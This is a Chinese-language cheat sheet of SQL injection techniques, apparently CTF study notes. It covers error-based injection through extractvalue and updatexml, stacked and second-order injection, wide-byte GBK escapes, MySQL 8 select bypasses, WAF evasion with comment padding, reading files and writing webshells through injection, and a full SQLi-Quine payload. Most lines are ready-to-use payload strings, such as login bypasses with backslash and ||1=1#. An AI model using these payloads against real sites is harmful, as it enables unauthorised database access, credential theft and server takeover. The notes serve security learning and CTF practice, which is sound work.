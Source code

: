 ```
                (2). 通过updatexml报错 32字符 只有在payload返回的不是xml格式才会生效
                (3). 通过ExtractValue报错
                ?username=admin'or(extractvalue(1,concat(0x7e,user(),0x7e)))%23&password=21

    5.堆叠注入: select * from users where id= 1;create table test like users;
    6.二次注入:通过在一处输入点构造sql语句，在第二处触发
               -- 1.登陆:邮箱。密码 2.登陆后:限制用户名,显示用户名 -- 可能二次注入 -- 网鼎杯2018unfinish
    7.宽字节注入:通过数据库编码错误来绕过字符转义
                sql = 'select *from user where id=\''.$id.'\'';
                GBK两个字符为一个汉字, 输入宽字符%df使反斜杠和这个%df形成一个汉字
                GET方式 id=1%df' union select 1,database(),3%23
                POST方式-没有url解码 username=1汉') or 1=1#
                        -配合盲注完成
    8.select绕过 -- 仅针对 mysql8
                 -- (TABLE information_schema.tables ORDER BY TABLE_SCHEMA LIMIT 1 OFFSET 0)>(1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21)
    8.WAF绕过:绕过过滤字符达到sql注入效果
    9.sql注入读写文件:通过sql注入写入webshell,或直接读取服务器文件
    10.sql注入提权:通过sql注 入获取服务器权限
    - 读取数据 见0x10
    - 绕过字符  /**/替换空格, 用<a>无意义填充过waf , 看bypass
                ()替换空格or(1)=(1) , or('1')='1'
    load_file
    head 注入 useragent进行报错注入
    MySQL查询的按位比较 -- CTFshow web1, [GYCTF2020]Ezsqli

    SQLi-Quine  $row['password'] === $password, 输入的password值等于查询出来的值
                http://y24.top/go?_=06d458b6b3aHR0cHM6Ly93d3cuc2h5c2VjdXJpdHkuY29tL3Bvc3QvMjAxNDA3MDUtU1FMaS1RdWluZQ%3D%3D
                https://www.shysecurity.com/post/20140705-SQLi-Quine
                'UNION/**/SELECT/**/REPLACE(REPLACE('"UNION/**/SELECT/**/REPLACE(REPLACE("%",CHAR(34),CHAR(39)),CHAR(37),"%")/**/AS/**/a#',CHAR(34),CHAR(39)),CHAR(37),'"UNION/**/SELECT/**/REPLACE(REPLACE("%",CHAR(34),CHAR(39)),CHAR(37),"%")/**/AS/**/a#')/**/AS/**/a#

```

转义+rlike/regexp模糊匹配 id=admin\
```
# https://www.bilibili.com/video/BV1ZT4y1o7H8  --1:10:31
"SELECT * FROM user WHERE username ='" .$username. "' AND password = '" .$password. "'"
username=admin\&password=||1=1#
# 关于 "||"
0||1=1, 0||0=0
# rlike(或者reexp)
模糊匹配,可以与正则匹配模式一起使用.如果未指定^xxxx$只要模式在指定字符串中就可以被匹配到
注意: SQL模糊匹配是不区分大小写的, 需要另外写爆破大小写脚本。
name= 'safasfascyxqagasgasfasfas'
name rlike cyxq
username=admin\&password=||(password)rlike(0x{})#
```

综合分析
